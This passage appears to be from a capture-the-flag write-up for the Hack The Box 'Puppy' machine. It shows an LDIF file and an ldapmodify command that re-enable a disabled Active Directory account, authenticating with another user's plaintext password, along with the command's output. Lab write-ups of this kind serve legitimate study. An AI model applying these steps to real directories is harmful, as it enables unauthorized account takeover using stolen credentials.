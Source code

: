 <figure><img src="../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

Enabling Adam's account using ldapsearch and ldapmodify

Create a ldif file

{% code title="mod.ldif" %}
```
dn: CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
```
{% endcode %}

Execute this command:

{% code overflow="wrap" %}
```bash
ldapmodify -H ldap://10.10.11.70 -D "CN=ANTHONY J. EDWARDS,DC=PUPPY,DC=HTB" -w 'Antman2025!' -f mod.ldif

#output
modifying entry "CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB"
```
{% endcode %}
